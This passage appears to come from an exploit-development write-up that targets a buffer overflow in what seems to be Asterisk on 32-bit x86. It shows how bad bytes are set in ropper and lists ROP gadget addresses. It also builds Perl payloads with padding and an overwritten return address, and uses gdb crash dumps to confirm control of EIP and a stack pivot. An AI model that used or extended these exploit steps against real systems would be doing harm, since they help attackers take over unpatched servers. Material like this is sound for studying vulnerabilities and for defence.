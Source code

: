 I did only test the most obvious ones, so maybe this list is incomplete.


We can define it in ropper:
```
(asterisk/ELF/x86)> badbytes 090a0b2000
```

And search for a new `pop eax` (as the first one I found containted \x09),
some examples:

```
0x08061bf5: pop eax; add al, 0x89; ret;
0x08060f10: pop eax; pop ebx; pop ebp; ret;
```

The first one involves calculation, which is a bit cumbersome.
So i'm taking the 2nd one.


## Buffer extension check

Lets check if we can add data at the end of the buffer, because this would
make a stack flip very easy:


Payload:
```
my $buf = $padding . pack("V", $eip) . "CCCCDDDDEEEEFFFFGGGG";
```

```
(gdb) c
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/32x $esp
0xb7344bc0:	0x43434343	0x44444444	0x45454545	0x46464646
0xb7344bd0:	0x47474747	0x00000000	0x00000000	0x00000000
```

Yes we can, the "CCCCDDDD..." appeared on the stack. Awesome!



## Stack flip

Upon crash, ESP already points to our payload. So we can just do
a `ret` as first instruction to switch to our ROP stack:

Lets do an initial test:
```
$payload = pack("V", 0x01010101);
$payload .= pack("V", 0x02020202);
$payload .= pack("V", 0x03030303);

my $buf = $padding . $payload;
```

On crash:
```
(gdb) c
Continuing.
[New LWP 4001]

Program received signal SIGSEGV, Segmentation fault.
[Switching to LWP 4001]
0x01010101 in ?? ()
(gdb) x/8x $esp
0xb7343bc0:	0x02020202	0x03030303	0x00000000	0xb7346f30
0xb7343bd0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) x/8x $esp - 4
0xb7343bbc:	0x01010101	0x02020202	0x03030303	0x00000000
```